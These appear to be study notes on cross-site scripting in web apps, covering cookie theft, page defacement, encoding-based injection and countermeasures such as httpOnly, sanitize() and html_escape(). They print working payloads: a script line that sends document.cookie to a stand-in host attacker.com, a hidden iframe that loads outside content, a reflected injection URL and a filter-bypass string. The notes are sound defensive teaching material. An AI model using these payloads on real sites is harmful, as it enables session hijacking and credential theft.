### Cookie Theft
- Javascript enforces same origin policy
  - Script from one domain cannot access cookies of another domain
- 'document.cookie' holds the cookie of the originating web server
  - You can read & write this property if you embed the code directly in HTML document
  - <script>document.write(document.cookie);</script>
  - But that is not useful to the attacker as they will see their own lookie
- This will try to load an image from the specific url plus the cookie
  - document.write('<img src="http://www.attacker.com/' + document.cookie + '">')
  - This url doesn't exist, so the browser displays nothing
    - But the attacker can review their web server's access log files
    - To see the victim's cookie
  - The log files on 'www.attacker.com' will read like this
    - GET http://www.attacker.com/_app_session=836c1c25278e5b321d6bea4f19cb57e2
- These attackes can be mitigated by adding the 'httpOnly' flag to cookies
  - So that 'document.cookie' may not be read by javascript
  - Though the cookies will still be visible using Ajax

### Defacement
- With web page defacement, an attacker can do a lot of things. For example,
  - Present false information or lure the victim on the attacker's website
  - To steal cookie, login credentials, or other sensitive data
- Most popular way is to include code from external sources by iframes
  - <iframe src="http://58.xx.xxx.xxx" style="display:none"></iframe>
  - This loads arbitrary html and/or javascript from external source
  - And embeds it as part of the site
- A more specialized attack could overlap the entire website
  - Or display a login form which looks the same as the site's original
    - But transmits the username & password to the attacker's site
  - Or it could use CSS and/or javascript to hide a legitimate link
    - And display another one at its place which redirects to a fake website
- Reflected injection attacks are those where the payload is not stored
  - It's not presented to the victim, but it's included in the url
  - Especially search forms fail to escape the search string
  - `http://www.news.com/?zipcode=1--><script src=http://www.attacker.com></script><!--`

### Obfuscation and Encoding Injection
- Network traffic is mostly based on the limited western alphabet
- So new char encodings like unicode emerged to transmit chars in other languages
  - But this is also a threat to web apps
  - As malicious code can be hidden in different encodings
  - That web browser might be able to process but web app might not
  - <img src=&#106;&#97;&#118; ...>
- `sanitize()` method does a good job to fend off encoding attacks

### Countermeasures
- It is important to filter malicious input and to escape the output of the web app
- Especially for XSS, it is important to do permitted input filtering (over restricted)
  - `sanitize(user_input, tags: allowed_tags, attributes: allowed_attributes)`
- Restricted list are never complete
  - Imagine a restricted list deletes 'script' from user input
  - Now the attacker injects `<scrscriptipt>`, so after filter `<script>` remains
- Use `html_escape()` to replace html input chars &, ", <, >
  - By their uninterpreted representations in html &amp;, &quot;, &lt;, &gt;
